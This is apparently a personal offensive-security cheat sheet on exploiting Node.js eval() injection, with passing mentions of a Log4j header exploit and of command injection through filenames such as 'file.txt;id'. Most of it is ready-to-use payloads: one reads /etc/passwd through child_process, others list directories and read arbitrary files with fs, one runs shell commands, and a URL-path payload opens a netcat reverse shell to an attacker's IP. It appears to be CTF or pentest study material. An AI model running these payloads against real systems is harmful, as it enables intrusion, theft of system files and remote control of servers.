

# Exploits
**LOG4J**
---------

~logs/log4j "X-api-version" exploit

If there's a file upload feature on the web or file-handling being done in general, try stupid stuff like `file.txt;id` or `file.txt' id`, to see if the base system is handling files in the commandline, which might give way to easy rce :)

[https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44) 

Exploiting a vulnerable eval() function in node js to gain rce and reverse shell. The `Node.js eval()` function is easy to exploit if data passed to it is not filtered correctly.

```text-plain
root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout
```

**Know your weapons**

`proces`,`fs`, `child_process,` `ncat`

`process.cwd()` for example returns the current working directory of the Node.js process.



File System:
------------

fs class
--------

A potential goal of an attacker might be to read the contents of a file from the server. This can be achieved with the Node.js `fs module` which has to be required with `require('fs')`. All the methods have asynchronous as well as synchronous versions. It allows one to work with the file system (accessing, managing and editing files, etc.). It covers a great number of methods and properties.

readdir()
---------

Just as the `dir` command in MS Windows or the `ls` command on Linux, it is possible to use the method `readdir` or `readdirSync` of the `fs` class to list the content of the directory . The difference between these both functions is that the latter is the synchronous version.

The ‘.’ points to the current directory. The ‘..’ reads the previous directory.

```text-plain
require('fs').readdirSync('.').toString()
require('fs').readdirSync('..').toString()
```

**readFile()**
--------------

Once the file names are obtained, the attacker can use other commands to view the content of the data. The methods `readFile` or `readFileSync` provide the option to read the entire content of a file. Again the latter is the synchronous version. As argument just pass the path to the file for the synchronous version.

```text-plain
require('fs').readFileSync(<filename>)
```

RCE:

```text-plain
require('child_process').exec('ls')
```

Child Process
-------------

`child_process` module allows to create child process in Node.js. There are 4 different ways to create a child process: `spawn()`, `fork()`, `exec()`, `execFile`.

**Reverse Shell with child\_process.execSync(command\[,options\])**
-------------------------------------------------------------------

This will send a reverse shell back to the local machine. The IP address is the one defined by the attacker.

`/api/order/from/1/range/require("child_process").exec('nc <IP Attacker> 4445 -e /bin/sh')`